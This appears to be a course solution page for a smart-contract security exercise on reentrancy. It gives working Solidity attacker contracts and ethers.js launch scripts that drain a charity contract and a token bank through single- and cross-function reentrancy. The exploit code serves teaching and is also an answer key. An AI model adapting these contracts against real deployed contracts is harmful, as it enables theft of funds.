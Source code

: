 # Smart Contracts Exercise 05: Reentrancy — Solution

The solution to Exercise 5 can be found in this [GitHub repository](https://github.com/radovluk/Smart-Contract-Exercise/tree/main/05-Re-Entrancy/solution/solution-code).

## Task 1: Cat Charity Hijinks

1. The attacker sends a small donation to the `CatCharity` contract to record their donation.
2. The attacker immediately calls the `claimRefund` function, triggering the reentrancy vulnerability.
3. While the `claimRefund` function is executing, the attacker's contract falls back into the `claimRefund` function multiple times, draining the `CatCharity` contract's Ether balance.
4. This attack continues until the charity's balance is completely drained and the funds are transferred to the attacker.

```solidity
contract CatAttacker {
    CatCharity public catCharity;

    constructor(address _catCharityAddress) {
        catCharity = CatCharity(_catCharityAddress);
    }

    /**
     * @notice Initiates the reentrancy attack.
     * @dev We donate a small amount so that we (the Attacker contract)
     *      have a 'donation' recorded, then immediately claim the refund,
     *      reentering until the charity's entire balance is drained.
     */
    function attack() external payable {
        // Step 1: Donate a tiny bit from this contract
        catCharity.donate{value: msg.value}();

        // Step 2: Start the refund loop
        catCharity.claimRefund();

        // Step 3: Send the money back to the player
        (bool success, ) = msg.sender.call{value: address(this).balance}("");
        require(success, "Transfer failed");
    }

    // Fallback triggered whenever this contract receives Ether
    receive() external payable {
        // If there's still ETH left in the CatCharity, reclaim it
        if (address(catCharity).balance > 0) {
            catCharity.claimRefund();
        }
    }
}
```

JavaScript code to start the attack:

```javascript
// 1) The player deploys the Attacker contract
catAttacker = await (await ethers.getContractFactory("CatAttacker", deployer))
       .deploy(catCharity.target);

// 2) The player calls `attack()` with a small donation to set up reentrancy.
//    We'll donate 0.5 ETH.
await catAttacker.connect(player).attack({ value: 5n * 10n ** 17n });
// By the end of this transaction, the attacker contract's fallback
// will keep calling `claimRefund()` in a loop until the charity is drained.
```

## Task 2: CTU Token Bank

In this task, the objective is to exploit a cross-function reentrancy vulnerability in the `CTUTokenBank` contract. Here's how the exploit works:
1. The attacker deposits Ether into the `CTUTokenBank`, which increases their balance in the contract.
2. The attacker then calls the `withdrawEther` function, which is protected by a reentrancy lock. However, while the lock is active, the attacker exploits a function that allows them to buy CTU Tokens (`buyTokens`) using their previous balance.
3. The attacker repeats this process, buying more tokens and withdrawing Ether until they have drained the bank of its Ether balance.
4. Finally, the attacker withdraws all remaining funds and transfers the stolen Ether to themselves.

```solidity
/**
* @title CTUTokenBankAttacker
* @notice Demonstrates a cross-function reentrancy exploit on CTUTokenBank.
*         Even though 'withdrawEther' is guarded by a reentrancy lock, 'buyTokens'
*         is wide open. The attacker calls 'withdrawEther', and during the
*         fallback—while the lock is active—calls 'buyTokens' using the *old*
*         balance that hasn't yet been subtracted.
*/
contract CTUTokenBankAttacker {
    ICTUTokenBank public ctuBank;
    ICTUToken public ctuToken;
    address public owner;
    bool private alreadyCalled;

    constructor(address _ctuBank, address _ctuToken) {
        ctuBank = ICTUTokenBank(_ctuBank);
        ctuToken = ICTUToken(_ctuToken);
        owner = msg.sender;
        alreadyCalled = false;
    }

    function attack() external payable {
        require(msg.sender == owner, "Not owner");
        
        // 1) Deposit Ether into the bank
        ctuBank.depositEther{value: msg.value}();

        // 2) Start a withdrawal, which will send Ether back to this contract
        ctuBank.withdrawEther();

        // 3) Sell the CTU Tokens to the bank
        ctuToken.approve(address(ctuBank), ctuToken.balanceOf(address(this)));
        ctuBank.sellTokens(ctuToken.balanceOf(address(this)));

        // 4) Withdraw the Ether again
        ctuBank.withdrawEther();

        // 5) Repeat the attack one more time
        alreadyCalled = false;
        ctuBank.depositEther{value: 5 ether}();
        ctuBank.withdrawEther();
        ctuToken.approve(address(ctuBank), 5 * 10 ** 18);
        ctuBank.sellTokens(ctuToken.balanceOf(address(this)));
        ctuBank.withdrawEther();

        // 6) Transfer the stolen funds to the player
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        if (!alreadyCalled) {
            alreadyCalled = true;
            ctuBank.buyTokens();
        }
    }
}
```

JavaScript code to start the attack:

```javascript
// Deploy the attack contract
const attackerContractFactory = 
  await ethers.getContractFactory("CTUTokenBankAttacker", player);
const attackerContract = 
  await attackerContractFactory.deploy(bank.target, token.target);
// Execute the attack with 5 ETH
await attackerContract.attack({ value: 5n * 10n ** 18n });
```